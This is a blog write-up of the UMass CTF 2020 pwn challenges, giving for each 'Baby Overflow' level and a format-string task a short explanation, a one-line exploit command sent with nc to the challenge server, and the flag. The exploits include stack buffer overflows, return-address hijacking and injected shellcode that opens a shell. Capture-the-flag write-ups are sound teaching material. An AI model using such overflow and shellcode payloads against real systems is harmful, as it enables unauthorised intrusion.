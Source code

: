 ```yaml
---
title: "UMass CTF 2020: PWN Engineering Writeups"
date: 2020-10-13
category: ctf
tags:
 - pwn
 - umass20
permalink: /ctf/umass/pwn
sidebar:
    nav: "ctfs"
...
```


**NOTE**: This is still a work in progress more detailed solutions are coming
{: .notice--warning}

# Introduction

This page details my pwn writeups for The University of Massachusetts Amherst CTF.
This CTF was originally just an internal CTF but I knew one of the moderators Sam.
Overall it was a great CTF and I really enjoyed it; they definitely had some unique challenges.

All my scripts and the provided files from the CTF can be found [here](https://github.com/nadrojisk/ctf-writeups/tree/master/2020-UMassCTF/rev).

# Baby Overflow I

## Prompt

This is my first program. Be nice :)

`nc 34.75.105.136 1024`

## TLDR;

Looking at the binary in GDB we see that the buffer is 16 characters and right above it is the variable for `should_get_flag`.
Therefore, we should write in 16 junk characters and then write in 0x1.

`python -c "import struct; out = 'A'*0x10; out += struct.pack('I', 0x1); print(out)" | nc 34.75.105.136 1024`

## Flag

`UMASS{N3v3r_g0nn4_m3s$_th1s_up}`

# Baby Overflow II

## Prompt

When my friend Ptasie Mleczko typed in his name, it gave him the flag. It was weird, but I think I fixed it.

nc 34.75.105.136 1025

## TLDR;

The binary is pretty much the same, however, this time it expects a specific value instead of a boolean True value.

`python -c "import struct;out = 'A'*0x10;out += struct.pack('I', 0xB16B00B5);print(out)" | nc 34.75.105.136 1025`

## Flag

`UMASS{Dyslexic_D0g_1nth3$ky}`

# Baby Overflow III

## Prompt

Okay, now it's really secure.

nc 34.75.105.136 1027

## TLDR;

For this challenge one has to gain control of the RIP to change execution flow.
This can be done by overloading the buffer, the saved RBP value on the stack and then by inserting the address one would like to execute at.

`(python -c "import struct;out = 'A'*0x10;out += 'bbbbbbbb';out += struct.pack('Q', 0x401132); out += struct.pack('Q', 0x401060); print(out)"; echo) | nc 34.75.105.136 1027`

## Flag

`UMASS{first_step_to_rop}`

# Baby Overflow IV

## Prompt

I don't even know why I had that function in the first place...

nc 34.75.105.136 1028

## TLDR;

`(python -c "import struct;out = 'A'*0x10;out += 'bbbbbbbb';out += struct.pack('Q', 0x0000000000404060); print('\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05');print(out)"; cat -) | nc 34.75.105.136 1028`

Once in the shell type
`cat flag`

## Flag

`UMASS{now_you_can_really_call_yourself_a_hacker}`

# format_what

## Prompt

We just learned format strings in 230, can you check if I'm doing it right?

nc 34.75.105.136 1030

## TLDR;


`python -c "print('%lu '*20)" | nc 34.75.105.136 1030 | (read -r i; read -r s; for i
 in $s; do python3 -c "import struct; print(struct.pack('Q', $i))"; done)`

## Flag

`UMASS{n0_f0rm4t_n33d3d!?}`
